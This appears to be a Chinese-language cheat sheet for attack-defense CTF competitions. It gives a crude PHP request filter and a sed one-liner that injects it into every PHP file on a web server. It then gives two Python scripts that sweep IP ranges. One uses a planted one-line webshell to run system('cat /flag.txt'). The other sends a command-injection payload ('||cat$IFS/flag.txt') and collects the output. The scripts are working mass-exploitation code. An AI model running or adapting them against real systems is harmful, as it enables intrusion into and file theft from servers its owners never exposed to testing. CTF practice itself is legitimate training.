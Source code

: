 # *waf*
```php
<?php
foreach($_REQUEST as $f){
    if(preg_match('/\S/m',$f))
    {
        die('flag{you_will_get_it}');
    }
}>
```

写在/tmp下，然后执行命令

    find /var/www/html -name "*.php"|xargs sed -i "s/<?php/<?php\nrequire('\/tmp\/waf.php');/g"

直接上awf

- tip

为什么要用require而不用include呢，首先require一定会执行并且遇到错误无法执行，include遇到错误直接跳过，其次require无论位置在哪都会首先执行，include则是遇到了才会执行，并且require是无条件包含，所以一定要用require防止包含失效被打穿

# 一句话木马脚本
`(看好是post还是get,如果是get自己修改下面命令注入的脚本)`
```python
import requests
import re
url="http://172.20."         #ip地址，如果是1.1.1.1,1.1.2.1请使用这个，然后根据网段自行修改自行修改
urll=".1/shell.php"          #如果不是index.php请自行修改为一句话木马的地址
payload={"shell":"system('cat /flag.txt');"}     #shell为一句话木马密码，请自行修改
for i in range(101,109):                   #从192.168.1.1-192.168.10.1,请根据靶机ip自行修改
    print(url+str(i)+urll)
    i=str(i)        #将i转换成字符型，不然无法拼接
    cc=url+i        #拼接
    cc=cc+urll      #拼接
    try:
        a=requests.post(url=cc,data=payload,timeout=1).text
        b=re.findall(r'[a-z0-9]{15,30}',a)      #正则匹配，表示匹配小写字母与数字组合长度为15-30位，根据flag位数自行修改，例如确定flag是20位那就直接r'[a-z0-9]{20}'
    except:
        b=''
    if len(b)>0:
        for j in b:
            f=open('1.txt','a+')    #输出至1.txt,可以自行修改
            f.write(url+i+".1 "+j+'\n')     #靶机ip第四位.1,根据情况自行修改
```
# 命令注入与文件包含通用脚本(根据漏洞自行修改)
```python
import requests
import re
url="172.20.10."
urll="/index.php?abc=127.0.0.1||cat$IFS/flag.txt"   #自行修改payload，本脚本展示get型命令注入与文件包含，看好题型如果是post自行修改
for i in range(1,10):
    i=str(i)
    try:
        a=requests.get(url=url+i+urll).text
        b=re.findall(r'flag{.*}', a)
    except:
        b=''
    if(len(b)>0):
        for j in b:
            f=open('1.txt','a+')
            f.write(url+i+" "+j+'\n')
```